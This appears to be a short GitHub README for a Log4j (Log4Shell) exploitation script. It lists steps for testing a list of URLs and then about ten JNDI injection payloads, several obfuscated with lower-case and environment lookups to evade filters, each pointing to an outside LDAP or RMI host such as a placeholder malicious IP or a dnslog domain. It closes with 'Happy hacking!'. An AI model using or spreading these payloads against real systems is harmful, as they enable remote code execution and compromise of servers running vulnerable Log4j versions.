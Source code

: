 # log4j
A simple script to exploit the log4j vulnerability

#Before Using the script:
1. Only versions between 2.0 - 2.14.1 are affected by the exploit
2. Create two txt files - one containing a list of URLs to test and the other containing the list of payloads.
3. Payload examples:

${jndi:ldap://[malicious ip address]/a} \
${jndi:ldap://n9iawh.dnslog.cn/} \
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//[malicious ip address]/a} \
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://[malicious ip address]/as} \
${${::-j}ndi:rmi://[malicious ip address]/a} \
${${lower:jndi}:${lower:rmi}://[malicious ip address]/poc} \
${jndi:rmi://[malicious ip address]} \
${${lower:${lower:jndi}}:${lower:rmi}://[malicious ip address]} \
${jndi:${lower:l}${lower:d}ap://[malicious ip address]/a} \
${jndi:${lower:l}${lower:d}ap://[malicious ip address]/} 

Happy hacking!
